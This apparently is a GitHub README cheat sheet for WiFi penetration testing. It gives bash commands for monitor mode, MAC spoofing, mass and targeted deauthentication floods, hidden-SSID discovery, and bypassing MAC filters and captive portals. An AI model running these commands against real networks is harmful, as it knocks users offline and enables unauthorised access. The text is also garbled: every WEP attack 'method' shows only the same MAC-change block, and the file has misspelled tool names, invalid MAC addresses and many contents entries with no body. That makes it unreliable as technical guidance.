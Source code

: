 ## Table of Contents

* [General WiFi Information](#general-wifi-information)
* [Enabling Monitor mode](#enabling-monitor-mode)
* [Attack/PenTesting](#attackpentesting)
  * [Pre-connection Attacks](#Pre-connection-Attacks)
    * [MAC address changing](#MAC-address-changing)
    * [Deauthenticating All Clients From Protected WiFi Network](#Deauthenticating-All-Clients-From-Protected-WiFi-Network)
    * [Deauthenticating a Client From Protected WiFi Networks](#Deauthenticating-a-Client-From-Protected-WiFi-Networks)
  * [Gaining Access](#Gaining-Access)
    * [Discovering Names of Hidden Networks](#Discovering-Names-of-Hidden-Networks)
    * [Bypassing Mac Filtering (Blacklists & Whitelists)](#Bypassing-Mac-Filtering-(Blacklists-&-Whitelists))
    * [Bypassing Captive portals](#Bypassing-Captive-portals)
	* [WEP ](#others)
	* [WPA ](#others)
	* [WPA 2](#others)
	* [WPA/WPA2 Enterpise](#others)
	* [Fake Access Point](#others)
  * [Post-connection Attacks](#injection)
    * [Capture data](#wepwpawpa2)
    * [Information Gathering](#wps)
    * [Bypass HTTPs](#others)
	* [Bypass router-side security features ](#others)
	* [MITM Attack ](#others)
	* [ARP spoofing](#others)
	* [DNS spoofing](#others)
	* [DoS Attack ](#others)
	* [Data Modification ](#others)
	* [Sniffing Cookies](#others)
	* [Session Hijacking](#others)
	* [Other Attacks](#others)
## Enabling Monitor mode
```Bash
  > iwconfig
  > airmon-ng check kill  
  > airmon-ng start wlan1 
  > airodump-ng wlan1mon 
    OR
  > airodump-ng --band a wlan1mon (show all type of wifi networks 5 Ghz or 2.4 Ghz)
  ```
  ## Pre-connection Attacks
### MAC address changing
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
 ### Deauthenticating All Clients From Protected WiFi Network
```Bash
  > airodump-ng -bssid 44:55:tt:ee:ee:bb --channel 11 wlan0
  > aireplay-ng --deauth 10000000 -a 44:55:tt:ee:ee:bb wlan0  
  ```
### Deauthenticating a Client From Protected WiFi Networks
```Bash
  > aireplay-ng --deauth 10000000 -a 44:55:tt:ee:ee:bb -c 22:dd:33:44:55:66 wlan0  
  ```
  ## Gaining Access
 ### Discovering Names of Hidden Networks
```Bash
  > airodump-ng --bssid 44:55:tt:ee:ee:bb --channel 6 wlan0
  > airoplay-ng --deauth 4 -a 44:55:tt:ee:ee:bb -c 22:dd:33:44:55:66 wlan0  
  ```
 ### Bypassing Mac Filtering (Blacklists & Whitelists)
```Bash
  > ifconfig wlan0 down
  > macchanger -m 22:dd:33:44:55:66 wlan0  
  ```
  ### Bypassing Captive portals
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
  ### WEP 
  Method 1 - Fake Authentication Attack
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
    Method 2 - ARP Replay Attack
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
    Method 3 - Chop Chop Attack
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
    Method 4 - Fragmentation Attack
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
    Method 5 - SKA (Shared Key Authentication) Type Cracking
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```

